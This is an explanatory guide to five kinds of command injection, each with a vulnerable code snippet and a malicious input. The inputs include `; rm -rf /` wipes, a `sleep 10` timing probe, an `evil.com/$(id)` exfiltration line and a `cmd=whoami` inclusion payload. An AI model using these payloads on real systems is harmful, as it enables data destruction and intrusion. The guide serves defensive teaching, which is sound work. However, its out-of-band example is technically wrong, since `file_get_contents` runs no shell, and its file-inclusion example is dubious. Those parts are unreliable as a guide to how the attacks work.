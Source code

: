 ## Command Injection: Types and Explanation

Command injection is a critical security vulnerability that allows attackers to execute arbitrary commands on the host operating system via a vulnerable application. Below are the main types of command injection, along with brief explanations and example snippets.

### 1. **Unfiltered Input Command Injection**

- **Explanation**: Occurs when user-supplied input is directly passed to the system shell without proper sanitization or filtering. The attacker can inject additional commands into the input string.

- **Injection Snippet**:
  ```bash
  # Vulnerable code snippet in PHP
  $filename = $_GET['filename'];
  system("cat " . $filename);
  
  # Malicious input
  filename=example.txt; rm -rf /
  ```

  - **Result**: This would display the contents of `example.txt` and then delete all files and directories on the server.

### 2. **Blind Command Injection**

- **Explanation**: The output of the injected command is not returned to the attacker. However, the attacker can infer the success or failure of the command based on external factors like the application's behavior, response time, or changes in the system state.

- **Injection Snippet**:
  ```bash
  # Vulnerable code snippet in Python
  ip = request.args.get('ip')
  os.system("ping -c 4 " + ip)
  
  # Malicious input
  ip=127.0.0.1; sleep 10
  ```

  - **Result**: The application delays for 10 seconds, indicating that the command was executed.

### 3. **Out-of-Band (OOB) Command Injection**

- **Explanation**: The attacker injects a command that causes the vulnerable system to make a request to an external server controlled by the attacker. This type of injection is useful when direct interaction or feedback is not available.

- **Injection Snippet**:
  ```bash
  # Vulnerable code snippet in PHP
  $url = $_GET['url'];
  file_get_contents("http://" . $url);
  
  # Malicious input
  url=evil.com/$(id)
  ```

  - **Result**: The server makes a request to `evil.com` with the output of the `id` command appended to the URL.

### 4. **File Inclusion Command Injection**

- **Explanation**: Command injection can also occur through vulnerable file inclusion functions, where user input is included in the path of a file that the system executes or reads.

- **Injection Snippet**:
  ```bash
  # Vulnerable code snippet in PHP
  $file = $_GET['file'];
  include($file);
  
  # Malicious input
  file=/var/www/html/evil.php?cmd=whoami
  ```

  - **Result**: If `evil.php` is a script that executes commands, this will run `whoami` on the server.

### 5. **Chained Command Injection**

- **Explanation**: Attackers use shell operators (like `&&`, `||`, `|`, `;`) to chain multiple commands together. This is often used to append malicious commands to an existing, legitimate command.

- **Injection Snippet**:
  ```bash
  # Vulnerable code snippet in Shell script
  user_input="$1"
  ls $user_input
  
  # Malicious input
  user_input="; rm -rf /"
  ```

  - **Result**: The command `ls` runs, and then the malicious `rm -rf /` is executed, potentially wiping out the filesystem.

---

### Summary

- **Command Injection** is a severe vulnerability that allows an attacker to execute arbitrary commands on a host machine.
- Types include **Unfiltered Input**, **Blind Injection**, **Out-of-Band Injection**, **File Inclusion Injection**, and **Chained Command Injection**.
- Each type has different methods of execution, but all involve manipulating user input to execute unintended commands.

By understanding these different types of command injection, developers and security professionals can better protect applications from these vulnerabilities.